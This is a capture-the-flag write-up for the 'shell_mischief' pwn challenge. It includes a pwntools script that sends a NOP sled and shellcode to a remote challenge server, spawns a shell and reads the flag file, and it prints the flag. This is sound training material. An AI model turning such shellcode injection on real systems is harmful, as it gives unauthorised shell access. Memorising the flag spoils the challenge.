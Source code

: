 https://ctftime.org/event/2416

# shell_mischief (pwn)

Step into the world of ShellMischief! This playful pwn challenge invites you to unleash your most mischievous self. With a sprinkle of creativity and a hint of trickery, can you crack the code and claim victory? Let the mischief begin!

nc 34.125.199.248 1234

## Solution

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./vuln", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("34.125.199.248", 1234)

payload = b""
payload += b"\x90" * 128
payload += asm(shellcraft.sh())
p.sendline(payload)

p.readline()

p.clean()

p.sendline(b"/bin/cat /home/flag.txt")

log.success(p.readline().decode()) # OSCTF{u_r_b3rry_mischievous_xD}
```

## Flag
`OSCTF{u_r_b3rry_mischievous_xD}`

smiley 2024/07/13
